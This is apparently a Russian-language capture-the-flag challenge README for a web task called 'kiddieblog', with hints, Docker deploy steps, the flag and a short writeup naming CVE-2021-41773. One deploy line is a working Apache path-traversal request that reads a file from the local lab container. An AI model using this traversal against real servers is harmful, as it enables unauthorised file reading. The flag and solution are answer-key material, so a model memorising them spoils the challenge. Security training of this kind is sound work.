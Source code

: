 __Category__: 
* Web

__Author__: 
* @RegularITCat

__Description__: 
Еу!
чек ит аут, очередной скрипт кидди, думающий что он крутой хакер, сделал свой блог. Как думаешь, расковыряем?

__Flag__: 
* YetiCTF{damn_br0_wanna_hackThingsWithMeX}

__Hints__: 
* О, Апач, норм.
* Ну и дичь он конечно пишет... Хотя, пост Tired интересный
* Зачекайка свеженькие proof of concept 

__Deploy__: 
* `docker build -t kiddieblog .; docker run -dp 8081:8081 --name kiddieblog kiddieblog`
* `curl "http://localhost:8081/cgi-bin/.%2e/.%2e/.%2e/.%2e/easterEgg/flag.txt"`
* `docker stop kiddieblog && docker rm kiddieblog`

__Writeup__: 

Это просто cve-2021-41773
Основная идея в том, что вы почитаете блог, увидите со временем, что он написан на апаче, пойдете поищете уязвимости, да похекаете.
